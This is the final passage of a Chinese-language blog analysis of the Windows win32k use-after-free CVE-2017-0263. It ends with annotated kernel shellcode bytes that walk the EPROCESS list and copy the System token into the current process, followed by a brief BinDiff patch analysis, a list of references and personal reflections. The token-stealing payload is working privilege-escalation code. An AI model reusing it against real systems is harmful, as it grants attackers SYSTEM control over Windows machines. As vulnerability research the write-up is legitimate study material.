// Zero tagCLS->lpszMenuName
0x83, 0x20, 0x00, // and dword ptr [eax],0
0xeb, 0xe9, // jmp Loader+0x10c7
//遍历结构体SHELLCODE对象存储的tagCLS数组通过参数wParam传入根弹出菜单对象的内核地址进行匹配 将匹配的tagCLS对象成员域lpszMenuName置空
// Loader+0x10de:
// Get the value of pwndWindowHunt->head.pti->ppi->Process to ECX.
// Get the value of pvShellCode->pid to EAX.
0x8b, 0x49, 0x08, // mov ecx,dword ptr [ecx+8]
0x8b, 0x5a, 0x0c, // mov ebx,dword ptr [edx+0Ch]
0x8b, 0x0c, 0x0b, // mov ecx,dword ptr [ebx+ecx]
0x8b, 0x09, // mov ecx,dword ptr [ecx]
0x8b, 0x5a, 0x10, // mov ebx,dword ptr [edx+10h]
0x8b, 0x42, 0x04, // mov eax,dword ptr [edx+4]
0x51, // push ecx
//获取载体窗口对象头部结构中存储的线程信息tagTHREADINFO对象指针 进程信息tagPROCESSINFO对象指针 进程结构体EPROCESS对象指针
// Loader+0x10f0:
// Judge if EPROCESS->UniqueId == pid.
0x39, 0x44, 0x0b, 0xfc, // cmp dword ptr [ebx+ecx-4],eax
0x74, 0x07, // je Loader+0x10fd
// Loader+0x10f6:
// Get next EPROCESS to ECX by ActiveLink.
0x8b, 0x0c, 0x0b, // mov ecx,dword ptr [ebx+ecx]
0x2b, 0xcb, // sub ecx,ebx
0xeb, 0xf3, // jmp Loader+0x10f0
// Loader+0x10fd:
// Get current EPROCESS to EDI.
0x8b, 0xf9, // mov edi,ecx
0x59, // pop ecx
// Loader+0x1100:
// Judge if EPROCESS->UniqueId == 4
0x83, 0x7c, 0x0b, 0xfc, 0x04, // cmp dword ptr [ebx+ecx-4],4
0x74, 0x07, // je Loader+0x110e
// Loader+0x1107:
// Get next EPROCESS to ECX by ActiveLink.
0x8b, 0x0c, 0x0b, // mov ecx,dword ptr [ebx+ecx]
0x2b, 0xcb, // sub ecx,ebx
0xeb, 0xf2, // jmp Loader+0x1100
// Loader+0x110e:
// Get system EPROCESS to ESI.
// Get the value of system EPROCESS->Token to current EPROCESS->Token.
// Add 2 to OBJECT_HEADER->PointerCount of system Token.
// Return 0x9F9F to the caller.
0x8b, 0xf1, // mov esi,ecx
0x8b, 0x42, 0x14, // mov eax,dword ptr [edx+14h]
0x03, 0xf0, // add esi,eax
0x03, 0xf8, // add edi,eax
0xad, // lods dword ptr [esi]
0xab, // stos dword ptr es:[edi]
//获取并替换当前线程和system的Token值
0x83, 0xe0, 0xf8, // and eax,0FFFFFFF8h
0x83, 0x40, 0xe8, 0x02, // add dword ptr [eax-18h],2
//为目标Token增加对象引用计数
0x61, // popad
0xb8, 0x9f, 0x9f, 0x00, 0x00, // mov eax,9F9Fh
0xeb, 0x05, // jmp Loader+0x112d
// Loader+0x1128:
// Failed in processing.
0xb8, 0x01, 0x00, 0x00, 0x00, // mov eax,1
// Loader+0x112d:
0xc9, // leave
0xc2, 0x10, 0x00, // ret 10h
//恢复寄存器的值
};
```
至此 代码分析结束~
利用成功~
我们已经知道是在xxxMNEndMenuState函数中 所以直接用Bindiff看 当我看到这个颜色的时候其实是内心有点崩溃的 这么多改变。。。。
好吧 其实是在xxxMNFreePopup函数中的 他的改变也蛮大的~
可以看到 有一部分没了
好吧 回到伪代码中 一目了然
至此 补丁分析结束 蛮清晰明了的~
本次分析 是在CVE-2014-4113和CVE-2015-2564之后的 这其中 多多少少有很多的联系 在小刀师傅的博客中 总是能get到很多东西的
小刀师傅的文章：从 CVE-2017-0263 漏洞分析到 Windows 菜单管理组件 - 小刀志 (xiaodaozhi.com)
0x2l师傅的文章：CVE-2017-0263 Win32k漏洞分析笔记 - 0x2l’s blog
用户回调：https://media.blackhat.com/bh-us-11/Mandt/BH_US_11_Mandt_win32k_WP.pdf
win32k思路：win32k.sys 漏洞挖掘思路解读 (seebug.org)
SDK窗口： Windows SDK窗口创建和消息机制理解_code_greenhand的博客-CSDN博客
本来是没打算调试这个漏洞的 但在复习CVE-2015-2546的时候 看到小刀师傅的博客中提到了这个 恰巧还是UAF 由此 产生想法 所以有此~
自己总归是菜的一
许许多多的东西不会
学过的东西忘记惹~
很多东西似懂非懂 ~
确实如此 很难走 很难来~
每次和师傅交流的时候 他总是能耐心的给我讲一些东西 让我慢慢来
亦或者另一位师傅告诉我follow my herat~
如此~
end~